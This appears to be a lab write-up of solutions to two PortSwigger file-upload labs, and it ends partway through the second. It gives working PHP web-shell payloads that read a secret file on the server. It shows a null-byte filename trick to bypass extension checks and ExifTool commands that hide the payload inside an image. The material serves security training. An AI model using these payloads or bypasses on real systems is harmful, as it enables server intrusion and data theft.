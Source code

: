 Reference: https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension


### Quick Solution
Only **png** and **jpg** extensions are allowed. Just change the ``filename`` extension from ``.php`` to ``.php%00.png`` or ``.php%00.jpg``.


### Solution

1. Log in and upload an image as your avatar, then go back to your account page.
2. In Burp, go to **Proxy > HTTP history** and notice that your image was fetched using a ``GET`` request to ``/files/avatars/<YOUR-IMAGE>``.
3. Send this request to Burp Repeater. On your system, create a file called ``exploit.php``, containing a script for fetching the contents of Carlos's secret. For example:
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
4. Attempt to upload this script as your avatar. The response indicates that you are only allowed to upload JPG and PNG files.
5. In Burp's proxy history, find the ``POST /my-account/avatar`` request that was used to submit the file upload. Send this to Burp Repeater.
6. In Burp Repeater, go to the tab for the ``POST /my-account/avatar`` request and find the part of the body that relates to your PHP file. In the ``Content-Disposition`` header, change the value of the ``filename`` parameter to include a URL encoded null byte, followed by the ``.jpg`` extension:
``filename="exploit.php%00.jpg"``
7. Send the request and observe that the file was successfully uploaded. Notice that the message refers to the file as ``exploit.php``, suggesting that the null byte and ``.jpg`` extension have been stripped. 
8. Switch to the other Repeater tab containing the ``GET /files/avatars/<YOUR-IMAGE>`` request. In the path, replace the name of your image file with ``exploit.php`` and send the request. Observe that Carlos's secret was returned in the response.
9. Submit the secret to solve the lab. 

## Remote code execution via polyglot web shell upload
Reference: https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload


### Quick Solution
Use ``ExifTool`` to add PHP code inside the **Comment** section of a valid image. ``ExifTool`` has been dockerized by [RAUDI](https://github.com/cybersecsi/RAUDI). Here is the command that has been executed (from the ``exploits`` directory) to create the ``polyglot.php`` file:
```
docker run -it --rm -v $pwd/:/content secsi/exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" /content/dont-panic.jpg -o /content/polyglot.php
```


### Solution

1. On your system, create a file called ``exploit.php`` containing a script for fetching the contents of Carlos's secret. For example:
```
<?php echo file_get_contents('/home/carlos/secret'); ?> 
```
2. Log in and attempt to upload the script as your avatar. Observe that the server successfully blocks you from uploading files that aren't images, even if you try using some of the techniques you've learned in previous labs.
3. Create a polyglot PHP/JPG file that is fundamentally a normal image, but contains your PHP payload in its metadata. A simple way of doing this is to download and run ExifTool from the command line as follows:
```
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```